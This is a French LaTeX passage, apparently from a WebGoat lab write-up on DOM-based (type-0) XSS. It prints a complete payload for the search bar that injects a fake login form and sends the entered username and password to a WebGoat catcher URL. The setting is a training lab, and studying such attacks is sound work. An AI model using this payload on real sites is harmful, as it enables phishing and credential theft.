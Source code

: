 \begin{itemize}
\begin{center}
\caption{XSS TYPE-0}
\includegraphics[scale=0.3]{Web/assets/XSS0.png}
\end{center}

\bigskip

\begin{flushleft}
Un autre exemple de l'exploitation de faille XSS de TYPE-0 pour cette fois changer l'apparence de la page en ajoutant deux cases à remplir avec un identifiant et un mot de passe dans le but de voler ces informations.

\bigskip

\begin{itemize}
\item </form><script>function hack(){ XSSImage=new Image; XSSImage.src="http://localhost/WebGoat/catcher?PROPERTY=yes&user="+ document.phish.user.value + "&password=" + document.phish.pass.value + ""; alert("Si cela etait une vraie attaque , les informations suivantes auraient ete volees. User Name = " + document.phish.user.value + " Password = " + document.phish.pass.value);} </script><form name="phish"><br><br><HR><H3>This feature requires account login:</H3 ><br><br>Enter Username:<br><input type="text" name="user"><br>Enter Password:<br><input type="password" name = "pass"><br><input type="submit" name="login" value="login" onclick="hack()"></form><br><br><HR>
\end{itemize}

\bigskip

En copiant ce code dans la barre de recherche et ensuite en cliquant sur search on utilise la faille XSS de TYPE-0 pour cette fois-c faire un peu de phishing en faisant croire à la légitimité de la demande. Tout de suite on va entrer les informations demandées (pour l'exemple j'utilise <hackademics> comme identifiant et <123456> comme mot de passe) et cliquer sur login pour voire ce qu'il se passe
\end{flushleft}



\end{itemize}

